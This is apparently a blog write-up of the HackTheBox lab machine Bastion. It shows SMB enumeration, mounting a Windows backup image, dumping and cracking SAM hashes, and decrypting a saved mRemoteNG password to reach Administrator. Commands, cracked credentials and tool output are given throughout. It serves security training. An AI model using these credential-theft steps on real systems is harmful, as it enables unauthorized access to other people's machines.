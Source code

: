 ```yaml
---
layout: post
title: HackTheBox Bastion (10.10.10.134) Writeup
description: >
  Hackthebox Bastion Writeup
image: /assets/img/bastion.png
---
```


<center><h3>Summary</h3></center>
<br>

- Access an open SMB share to find a full Windows backup file
- Grab the SAM hases and crack the password
- mRemoteNG is install and the password is stored inside the configuration file
- Use credentials to SSH as Administrator
<br>
First start with an Nmap scan

```
# Nmap 7.70 scan initiated Wed May 22 14:41:53 2019: nmap -sV -sC -T4 10.10.10.134
Nmap scan report for 10.10.10.134
Host is up (0.038s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -46m34s, deviation: 1h09m15s, median: -6m36s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-22T20:35:28+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-05-22 14:35:27
|_  start_date: 2019-05-19 22:23:54

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 22 14:42:11 2019 -- 1 IP address (1 host up) scanned in 17.97 seconds
```
<br>
A few ports open. Lets take a look at SMB. Running a quick smbmap I will see that there is a <b>Backups</b> directory that I have <b>READ, WRITE</b> privileges to.

```
# smbmap -u invalid -H 10.10.10.134
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445        Name: 10.10.10.134                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
```
Next thing I did was connect to the <b>Backups</b> share folder. Once connected I was able to see a few files but the ones that interested me were the <b>notes.txt</b> and <b>WindowsImageBackup</b>.
```
# smbclient -U none //10.10.10.134/Backups password
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 17:48:51 2019
  ..                                  D        0  Tue Sep 17 17:48:51 2019
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  rEFqURGnaS                          D        0  Tue Sep 17 17:48:51 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                  D        0  Fri Feb 22 07:44:02 2019
  ZWSfrgOAqs                          D        0  Tue Sep 17 17:42:12 2019

                7735807 blocks of size 4096. 2757009 blocks available
```
The <b>notes.txt</b> file mentions that I dont need to donwload the entire Windows Backups image to our host machine.
```
smb: \> more note.txt
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```
Instead of wasting time and downloading the files from the share, I decided to mount it. Before I was able to mount it I had to install a few things
```
# sudo apt install nfs-common
# sudo apt install cifs-utils
# sudo apt install libguestfs-tools
```
Once all those were downloaded I was able to mount the drive
```
mount -t cifs //10.10.10.134/Backups /mnt/Bastion
```
If you look around the <b>WindowsImageBackup</b> directory the you should ifnd two <b>.vhd</b> files.
```
# ls
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
<output omitted>
```
To mount the <b>.vhd</b> files I used the tool <b>guestmount</b>.
```
# guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
```
After enumerating around the box I realized I wont find any flags at this time. Next step was to dump the hashes from the SAM file. The SAM file is located at <b>Windows/System32/config</b> but it can't be access like any old file. To extract the hashes I will use a tool called <b>pwdump</b>.
```
# pwdump SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Next I am going to use john to crack the hash. First I need to copy the hashes to a text file and the start john
```
# john --format=NT -w=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```
Now I have a password <b>bureaulampje</b> for the user <b>L4mpje</b>. I can use this to SSH in. From this point I can grab the user flag located at <b>C:\Users\L4mpje\Desktop</b>.
```
l4mpje@BASTION C:\Users\L4mpje\Desktop>dir                                                       
 Volume in drive C has no label.                                                                 
 Volume Serial Number is 0CB3-C487                                                               

 Directory of C:\Users\L4mpje\Desktop                                                            

22-02-2019  16:27    <DIR>          .                                                            
22-02-2019  16:27    <DIR>          ..                                                           
23-02-2019  10:07                32 user.txt                                                     
               1 File(s)             32 bytes                                                    
               2 Dir(s)  11.292.332.032 bytes free                                               
```
After doing some serious enumerating I was able to find that mRemoteNG is installed on the system. Some further enumeration revealed a XML configuration file located at <b>C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml</b>. Reading the XML file I noticed the username <b>Administrator</b> along with something that resembles a password hash.
```
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a                     -44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVq                                                        
tKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP                 " PuttySession="Default Settings" Port="3389" ConnectToConsole="false"
```
My next thought was to decrypt the hash. After consulting my friend google, I was able to find something that could help me. These two links will help decrypt the password *[One](https://github.com/kmahyyg/mremoteng-decrypt)* and *[Two](https://github.com/kmahyyg/mremoteng-decrypt/releases)*.

Once you have everything ready I can now decrypt the hash.
```
# java -jar decipher mremoteng.jar aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

User input: aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Use default password for cracking...
Decrypted output: thXLHM96BeKL0ER2
```
Last I can use the decrypted password to log in as Administrator and grab the flag. You can find the root flag in <b>C:\Users\Administrator\Desktop</b>
```
administrator@BASTION C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.                                                                               
 Volume Serial Number is 0CB3-C487                                              

 Directory of C:\Users\Administrator\Desktop                                                              

23-02-2019  10:40    <DIR>          .                                                  
23-02-2019  10:40    <DIR>          ..                                                               
23-02-2019  10:07                32 root.txt                                                            
               1 File(s)             32 bytes                                                             
               2 Dir(s)  11.291.758.592 bytes free
```
<br><br><br>
